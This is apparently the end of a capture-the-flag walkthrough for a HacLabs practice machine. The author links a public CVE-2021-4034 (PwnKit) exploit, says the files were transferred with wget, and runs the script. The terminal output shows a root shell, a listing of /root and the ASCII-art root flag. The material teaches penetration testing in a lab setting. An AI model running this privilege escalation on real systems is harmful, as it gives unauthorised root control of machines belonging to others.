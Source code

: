 > That means I can try this exploit [CVE-2021-4034](https://github.com/mebeim/CVE-2021-4034) →
{: .prompt-tip }
I transfered the files through wget commands and its time to try this exploit →

```bash
yash@haclabs:/tmp$ 
yash@haclabs:/tmp$ ls
expl.sh
fake_module.c
helper.c
systemd-private-226a75322e014b62851f0e74e443ad31-apache2.service-ze9pxy
systemd-private-226a75322e014b62851f0e74e443ad31-systemd-timesyncd.service-jYzPAj
yash@haclabs:/tmp$ ./expl.sh 
Pwned!
# whoami
root
# id
uid=0(root) gid=0(root) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev),111(bluetooth),115(lpadmin),116(scanner),1000(yash)
# cd /root
# ls -al
total 36
drwx------  3 root root 4096 Mar 19  2020 .
drwxr-xr-x 18 root root 4096 Mar  9  2020 ..
-rw-------  1 root root  164 Mar 19  2020 .bash_history
-rw-r--r--  1 root root  570 Jan 31  2010 .bashrc
-rw-------  1 root root   38 Mar  9  2020 .lesshst
drwxr-xr-x  3 root root 4096 Mar  8  2020 .local
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-r--r--  1 root root   66 Mar  9  2020 .selected_editor
-rw-r--r--  1 root root 1753 Mar 10  2020 root_flag.txt
# cat root_flag.txt
                _                                                          _           _                                             _                 _          
               (_)                                                        (_)         (_)                                         _ (_)             _ (_)         
       _  _  _ (_)  _  _  _  _      _  _  _  _  _  _  _    _  _  _  _   _ (_) _  _  _  _       _  _  _     _  _  _  _            (_)(_)            (_)(_)         
     _(_)(_)(_)(_) (_)(_)(_)(_)_  _(_)(_)(_)(_)(_)(_)(_)_ (_)(_)(_)(_)_(_)(_)(_)(_)(_)(_)   _ (_)(_)(_) _ (_)(_)(_)(_)_             (_)               (_)         
    (_)        (_)(_) _  _  _ (_)(_)       (_) _  _  _ (_)(_)        (_)  (_)         (_)  (_)         (_)(_)        (_)            (_)               (_)         
    (_)        (_)(_)(_)(_)(_)(_)(_)       (_)(_)(_)(_)(_)(_)        (_)  (_)     _   (_)  (_)         (_)(_)        (_)            (_)     _  _      (_)         
    (_)_  _  _ (_)(_)_  _  _  _  (_)_  _  _(_)_  _  _  _  (_) _  _  _(_)  (_)_  _(_)_ (_) _(_) _  _  _ (_)(_)        (_)          _ (_) _  (_)(_)   _ (_) _       
      (_)(_)(_)(_)  (_)(_)(_)(_)   (_)(_)(_) (_)(_)(_)(_) (_)(_)(_)(_)      (_)(_) (_)(_)(_)  (_)(_)(_)   (_)        (_)         (_)(_)(_) (_)(_)  (_)(_)(_)      
                                                          (_)                                                                                                     
                                                          (_)                                                                                                    

----------------------------------
Visit our website : https://www.haclabs.org
Submit walkthrough at : yash@haclabs.org
#
```
{: .nolineno}
{: .nolineno}

Now I am Root !!

> If you have any questions or suggestions, please leave a comment below.
Thank You ! 
{: .prompt-tip }